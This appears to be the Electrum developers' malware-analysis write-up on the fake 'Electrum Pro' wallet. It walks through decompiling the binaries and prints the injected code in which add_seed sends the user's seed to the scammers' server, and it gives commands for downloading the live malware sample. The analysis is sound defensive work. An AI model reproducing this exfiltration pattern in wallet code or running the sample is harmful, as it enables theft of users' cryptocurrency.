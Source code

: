 # Decompiling the ElectrumPro stealware

This document describes how to decompile the "Electrum Pro" Windows
binaries, and how to verify that they indeed contain bitcoin-stealing
malware.  We previously warned users against this software, but at
that time we did not have formal evidence.


## 0. Background

Electrum is a popular Bitcoin wallet, distributed on
[electrum.org](https://www.electrum.org) and
[spesmilo/electrum](https://github.com/spesmilo/electrum).

Recently, a website hosted at "electrum dot com" has been trying to
defraud Electrum users, by distributing fake Electrum binaries that
will extract the user's seed words and private keys, and send them to
a remote server.

In the past, this kind of attack has been carried out by websites
hosted on domain names similar to electrum.org (e.g. they swap two
letters, or use fancy UTF8 characters that look similar), and using
paid Google ads. Those websites are commonly just an almost exact copy
of the official one.

The "electrum dot com"
[scheme](https://www.reddit.com/r/Bitcoin/comments/8a1drz/psa_electrumcom_bought_by_scammers_to_distribute/)
is taking that attack further: the scammers have managed to take
control of [the dot com domain](https://i.imgur.com/RPqKmwf.png), and
they have developed a website with a slightly different design and
logo. The authors have been [claiming](https://archive.fo/Yuvjn) that
they are developing a legitimate fork of the Electrum project, and
that they are trying to improve user experience. The owners of
"electrum dot com" went as far as to claim that they are "currently
undergoing a public security audit which will be released soon".

Well, given they did not release such audit, we will do it in this
write-up.


## 1. Prerequisites

This guide assumes a modern Debian based Linux distribution.

1. The same version of python is needed as the one used in the binary.
For the Windows binaries, python 3.5.
[This link](https://askubuntu.com/questions/682869/how-do-i-install-a-different-python-version-using-apt-get)
might be useful if you are on too new or too old ubuntu.

2. To unpack the pyinstaller binary,
[pyinstallerextractor](https://sourceforge.net/projects/pyinstallerextractor/)
will be used:

    ```
    $ wget -O pyinstxtractor.py  https://downloads.sourceforge.net/project/pyinstallerextractor/dist/pyinstxtractor.py
    ```

3. To decompile the pyc bytecode, [uncompyle6](https://pypi.org/project/uncompyle6/)
will be used:

    ```
    $ python3.5 -m pip install uncompyle6
    ```


## 2. Download the malware

```
$ wget https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```

At the time of writing, the file we get is:

```
$ sha256sum ElectrumPro-4.0.2-Standalone.zip
f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99  ElectrumPro-4.0.2-Standalone.zip
```

If you get a different hash, it means that the attackers have removed
the malware version from their website, in order to evade legal
takedown mesures. However, a backup of electrum dot com is hosted on
archive.org, and can be used to retrieve the malware file:

$ wget https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip



## 3. Uncompress the zip

For example
```
7za e ElectrumPro-4.0.2-Standalone.zip
```
(which requires p7zip)

Warning: obviously, do not execute the extracted file.


## 4. Unpack the pyinstaller binary
```
python3.5 ./pyinstxtractor.py electrumpro-4.0.2.exe
```

## 5. Decompile the python bytecode
```
cd electrumpro-4.0.2.exe_extracted/out00-PYZ.pyz_extracted/
uncompyle6 electrum.keystore.pyc
```

The output of this command can be found
[here](https://gist.github.com/SomberNight/62d78d206001e13e30e169ef8eb2b4dc).


## 6. A look at the output

Particularly of interest are lines 223-248:

```python
def verify_version(self, v1):
    reqlist = 'https://www.electrum.com/checkversioninfo.php'
    API_ENDPOINT = reqlist
    encodedversionv1 = self.encode_version(v1)
    data = {'version': encodedversionv1}
    r = None
    try:
        r = requests.post(url=API_ENDPOINT, data=data)
        if r.status_code != 200:
            self.verify_version(v1)
        else:
            if r.text != 'current_version=' + encodedversionv1:
                self.verify_version(v1)
    except requests.exceptions.RequestException as e:
        self.verify_version(v1)

def verify_version_thread(self, v1):
    time.sleep(15)
    self.verify_version(v1)

def add_seed(self, seed):
    if self.seed:
        raise Exception('a seed exists')
    self.thread_v1 = threading.Thread(target=self.verify_version_thread, args=(seed,))
    self.thread_v1.start()
    self.seed = self.format_seed(seed)
```

`add_seed` is a method in the `keystore.py` module, that gets called
while creating or restoring a wallet. In this binary, a few extra
lines have been added by the scammers: A thread is started that
**sends** an HTTP POST request to their website, and its payload is
**the user's seed**.  This demonstrates that "Electrum Pro" is
bitcoin-stealing malware.

## 7. Closing

Users should only download binaries from official sources, and they should check the GPG signatures
(official binaries are signed with
[ThomasV's key](https://pgp.mit.edu/pks/lookup?op=vindex&search=0x2BD5824B7F9470E6)).
Alternatively if they know how, they can run from source, or build binaries themselves.

In addition to GPG signatures, Electrum is working on having the Windows binaries signed using the
Windows native scheme, which should be ready soon, and at some point there will be an
official signed package in the MacOS store as well.

### Misc

Note that this post was looking at only one of the Windows binaries
distributed by "electrum dot com", but it is safe to assume that the
other Windows binaries are malicious as well.  We also checked the Mac
`.dmg` file, and it contained the same modifications. The Linux
package seemed harmless, presumably because the scammers did not want
to have these changes in plain sight (Linux packages are essentially
just source code).

Thanks to  `echeveria` (on Freenode); [here](https://transfer.sh/oZ4P7/electrumpro.warc.gz) is a complete copy of electrum dot com in web-archive
(archive.org format), [opentimestamped](https://transfer.sh/oq1ve/electrumpro.warc.gz.ots).

There is also a copy of the binary matching the sha256 hash in this write-up on
[archive.org](https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip).

Also, a [VirusTotal URL](https://www.virustotal.com/#/file/f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99/relations)
linking the hash to the website.
